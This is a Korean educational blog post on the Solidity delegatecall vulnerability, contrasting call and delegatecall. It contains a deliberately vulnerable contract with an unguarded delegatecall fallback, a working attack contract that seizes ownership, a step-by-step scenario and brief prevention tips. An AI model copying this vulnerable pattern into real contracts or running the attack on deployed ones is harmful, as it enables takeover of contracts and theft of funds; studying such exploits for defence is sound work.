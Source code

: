 ```yaml
---
emoji: 🧢
title: (취약점 시리즈 4) Delegate Call
date: '2021-12-26 22:34:00'
author: 한성원
tags: DelegateCall 취약점 SmartContract
categories: 취약점분석
---
```


# 👋 DelegateCall

## 들어가기전 Call 과 Delegate Call의 차이점
#### Call이란?
Call은 다른 contract와 상호작용하기 위한 low level function이다.

컨트랙트 A를 통해 컨트랙트 B의 함수 호출시 B의 Storage를 변경시키며 msg.sender(호출자)는 컨트랙트A의 주소가 됩니다.

#### Delegate Call이란?
delegate call은 call과 매우 유사하다. delegate은 '위임하다' 라는 뜻으로 call에 대한 권한을 위임한다고 볼 수 있다. 

Delegate Call에는 2가지 특징이 있다.
1. 호출한 contract의 context를 기반으로 동작된다.
2. storage layout은 delegatecall을 이용하는 contract와 같아야한다.

예를 들어 컨트랙트 A를 통해 컨트랙트 B 호출시 B의 Storage를 변경시키지 않고, B의 코드를 A에서 실행합니다. msg.sender와 msg.value가 컨트랙트 A 호출시와 같고, 변동되지 않습니다.

만약 delegate call에 대해 방지하지 않는다면 contract의 내용을 hacker가 마음대로 조종 할 수 있게 될수도 있다. EX) owner변경, ether 가로채기 등등

- - -

## Example Code 1
```solidity
contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}

contract HackMe {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```
<span style="color:grey">출처: https://solidity-by-example.org/hacks/delegatecall/ </span> 

시나리오는 이렇다.
1. A가 Lib contract 배포
2. A가 Lib의 address를 포함한 HackMe contract 배포
3. __Hacker__ 가 HackMe의 address를 포함한 Attack contract 배포
4. __Hacker__ 가 Attack.attack()을 call
5. HackMe contract의 owner는 Attack contract가 된다.

좀 더 자세히 들여다보겠다. 
__Hacker__ 가 Attack.attack를 call하게 되면 HackMe contract의 fallback function이 실행된다. Fallback function에는 lib를 쓰기 위한 Delegate Call이 존재한다. Attack.attack에서 "pwn()"을 보냈기 때문에 Lib contract의 pwn이 실행된다. 
이때 delegate call로 call하였기 때문에 msg.sender은 Attack contract가 된다. 이렇게되면 Attack contract가 HackMe의 주인이 된다.

- - -

## How to prevent?
1. __library__ 키워드를 사용한다. 
    library 키워드를 사용함으로써 stateless하고 self destruct를 방지 할 수 있다.
2. 가능하다면 stateless 라이브러리를 사용한다.
    위와 마찬가지로 stateless하다면 바꿀 state가 없기 때문에 더 안전해질 수 있다.

- - -

## 마무리
나에게 Delegate call은 생각보다 개념이 어려웠다. Example code와 다른 example들을 통해 실습하면서 개념을 얻을 것 같다. 한편으로 이게 어려우면 다른건 어째하냐~~ 라는 생각이들지만 그때마다 실습하지 뭐!! 실습 짱!!


- - -


```toc

```